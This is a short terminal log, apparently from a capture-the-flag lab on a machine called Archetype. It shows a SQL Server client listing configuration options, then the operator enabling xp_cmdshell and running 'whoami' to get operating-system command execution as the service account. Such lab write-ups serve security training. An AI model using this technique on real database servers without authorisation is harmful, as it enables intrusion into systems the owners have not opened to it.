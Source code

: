 ```bash

recovery interval (min)                         0         32767              0             0

remote access                                   0             1              1             1

remote admin connections                        0             1              0             0

remote data archive                             0             1              0             0

remote login timeout (s)                        0    2147483647             10            10

remote proc trans                               0             1              0             0

remote query timeout (s)                        0    2147483647            600           600

Replication XPs                                 0             1              0             0

scan for startup procs                          0             1              0             0

server trigger recursion                        0             1              1             1

set working set size                            0             1              0             0

show advanced options                           0             1              1             1

SMO and DMO XPs                                 0             1              1             1

transform noise words                           0             1              0             0

two digit year cutoff                        1753          9999           2049          2049

user connections                                0         32767              0             0

user options                                    0         32767              0             0

xp_cmdshell                                     0             1              0             0

SQL> EXEC sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output

--------------------------------------------------------------------------------

archetype\sql_svc

NULL
```
